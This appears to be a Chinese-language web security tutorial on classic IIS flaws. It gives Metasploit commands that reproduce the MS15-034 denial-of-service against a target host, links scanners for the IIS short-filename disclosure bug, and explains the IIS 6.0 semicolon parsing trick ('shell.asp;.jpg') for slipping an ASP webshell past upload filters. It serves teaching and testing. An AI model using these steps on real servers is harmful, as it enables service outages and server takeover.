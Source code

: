 进入msfconsole，使用`auxiliary/dos/http/ms15_034_ulonglongadd`，按如下配置目标主机IP地址和端口之后run即可复现

```bash
msfconsole
use auxiliary/dos/http/ms15_034_ulonglongadd
set rhosts xx.xx.xx.xx
set rport xx
run
```

执行结果如下图所示

![image-20250929230533544](https://img.yatjay.top/md/20250929230533583.png)

#### IIS短文件名猜解漏洞

1、此漏洞实际是由HTTP请求中旧DOS 8.3名称约定(SFN)的代字符(~)波浪号引起的。它允许远程攻击者在Web根目录下公开文件和文件夹名称(不应该可被访问)。攻击者可以找到通常无法从外部直接访问的重要文件,并获取有关应用程序基础结构的信息。

2、漏洞成因：为了兼容16位MS-DOS程序,Windows为文件名较长的文件(和文件夹)生成了对应的windows 8.3短文件名。在Windows下查看对应的短文件名,可以使用命令dir /x

3、应用场景：后台路径获取，数据库文件获取，其他敏感文件获取等

4、利用工具：

- https://github.com/irsdl/IIS-ShortName-Scanner
- https://github.com/lijiejie/IIS_shortname_Scanner

#### IIS文件解析-IIS 6.0文件解析漏洞

好的，我们来详细介绍一下经典的 **IIS 6.0 文件解析漏洞**。

这是一个非常著名且具有代表性的Web服务器漏洞，在当年影响深远，即使现在，一些遗留的老系统中仍可能遇到。

##### 漏洞概述

**IIS 6.0** 是微软随 Windows Server 2003 推出的互联网信息服务组件。其文件解析机制中存在一个严重的安全缺陷，攻击者可以利用该漏洞，将原本应该是静态文件的请求（如图片、文本）交给动态脚本处理程序（如ASP）来执行，从而绕过文件上传限制，获取Webshell，最终控制服务器。

这个漏洞的核心在于 **IIS 6.0 对文件名解析的异常处理**。

##### 漏洞原理与细节

IIS 6.0 主要存在两种利用方式的解析漏洞：

###### 1. 分号截断解析漏洞 (`;`)

该版本默认会将`*.asp;.jpg `此种格式的文件名，当成Asp解析，如`logo.asp;.jpg `

这是最著名的利用方式。

- **原理**：IIS 6.0 在解析文件名时，会将分号 `;`后面的内容截断，忽略不计。它会认为分号前的部分才是文件的真实扩展名。
- **利用方式**：假设网站有一个文件上传功能，只允许上传 `.jpg`格式的图片。攻击者可以上传一个包含ASP恶意代码的文件，并将其命名为 `shell.asp;.jpg`。
- **解析过程**：上传后，文件在服务器上的完整名称是 `shell.asp;.jpg`。当攻击者通过浏览器访问这个文件时，URL 为 `http://www.example.com/upload/shell.asp;.jpg`。IIS 6.0 接收到请求后，看到路径中有 `.asp`，于是将其交给 `asp.dll`这个处理程序来解析执行。在交给 `asp.dll`之前，IIS 6.0 会进行“截断”操作，它认为 `;`之后的内容是无效的，所以实际处理的文件名被识别为 `shell.asp`。`asp.dll`成功地执行了 `shell.asp;.jpg`文件中的ASP代码，尽管它的后缀是 `.jpg`。

**简单来说，IIS 6.0 错误地将 `shell.asp;.jpg`识别并解析为了一个ASP脚本文件。**
